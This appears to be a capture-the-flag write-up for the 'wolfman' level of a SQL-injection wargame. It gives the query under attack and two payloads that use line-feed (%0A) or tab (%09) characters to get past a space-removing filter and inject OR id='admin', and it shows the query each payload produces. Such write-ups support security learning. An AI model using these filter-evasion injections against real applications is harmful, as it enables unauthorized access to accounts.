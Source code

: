 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 5
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/48346668-4ade-4937-98dc-cd3160cfa815)

We are provided with the SQL query:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes all space characters. In order to get around this, we need to use the Line Feed (`%0A`) character.

If we provide the following URI parameter:

```
?pw='%0AOR%0Aid='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''
OR
id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ea2c6e8d-c9e1-4e5b-80bd-2dfeb29f1c0d)

We can also solvethe challenge by using the Tab (`%09`) character.

If we provide the following URI parameter:

```
?pw='%09OR%09id='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''  OR  id='admin'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/94cf381a-1444-4ac4-a8fe-2676109d7164)
